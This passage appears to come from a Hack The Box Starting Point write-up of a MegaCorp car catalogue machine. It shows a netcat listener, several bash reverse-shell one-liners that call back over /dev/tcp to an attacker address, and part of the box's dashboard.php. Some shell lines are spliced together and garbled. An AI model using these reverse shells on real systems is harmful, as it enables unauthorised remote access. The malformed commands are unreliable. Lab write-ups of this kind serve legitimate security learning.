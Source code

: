 In `/home` we see that we have 2 user : `ftpuser` and `simon`.
We cannot see the folder of `simon`.

## 5. Installation

Now we create a reverse shell :

```SHELL
┌─[eu-starting-point-2-dhcp]─[10.10.15.56]─[bobinette@htb-ktojmy4srl]─[~]
└──╼ [★]$ nc -lvnp 4444
listening on [any] 4444 ...
```

``` Bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&10<&196;
exec 196<>/dev/tcp/10.0.0.1/4242;
sh <&196 >&196 2>&196 /bin/bash -1 > /dev/tcp/10.0.0.1/4242 0<&1 2>&1
bash -c "bash -i >& /dev/tcp/10.10.15.56/4444 0>&1"
```

And there we are :

![[Pasted image 20250115221017.png]]

But he always close. But we just have time to read `dashboard.php` in /var/www/html. He contains :

```PHP
<!DOCTYPE html>
<html lang="en" >
<head>
  <meta charset="UTF-8">
  <title>Admin Dashboard</title>
  <link rel="stylesheet" href="./dashboard.css">
  <script src="https://use.fontawesome.com/33a3739634.js"></script>

</head>
<body>
<!-- partial:index.partial.html -->
<body>
 <div id="wrapper">
 <div class="parent">
  <h1 align="left">MegaCorp Car Catalogue</h1>
<form action="" method="GET">
<div class="search-box">
  <input type="search" name="search" placeholder="Search" />
  <button type="submit" class="search-btn"><i class="fa fa-search"></i></button>
</div>
</form>
  </div>
  
  <table id="keywords" cellspacing="0" cellpadding="0">
    <thead>
      <tr>
        <th><span style="color: white">Name</span></th>
        <th><span style="color: white">Type</span></th>
        <th><span style="color: white">Fuel</span></th>
        <th><span style="color: white">Engine</span></th>
      </tr>
    </thead>
    <tbody>
	<?php
	session_start();
	if($_SESSION['login'] !== "true") {
	  header("Location: index.php");
	  die();
	}
```